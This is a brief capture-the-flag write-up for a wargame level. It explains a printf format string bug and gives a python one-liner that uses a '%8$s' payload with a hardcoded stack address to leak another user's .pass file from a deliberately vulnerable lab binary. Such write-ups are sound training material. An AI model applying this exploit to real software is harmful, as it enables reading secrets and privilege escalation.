 # LEVEL02

## EXPLANATIONS

### BINARY BEHAVIOR
- only function main :
  - 3 buf (username and password from the input and pass from level03/.pass)
  - printf(buf_username) format string exploit

### EXPLOIT STRATEGY

- put stack address of "buf_pass" in 1-8th bytes of "buff_password" so that printf will %s on this address
  - => prints content of buff_pass
- align stack inside/outside gdb
- bypass opening of .pass file inside gdb by updating string with level02 pass file
  - set {char [26]}string_addr="/home/users/level02/.pass"

### RUN COMMAND
```
python -c "print('%8\$s' + '\n' + '\x00\x00\x7f\xff\xff\xff\xec\xb0'[::-1])" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD /home/users/level02/level02
```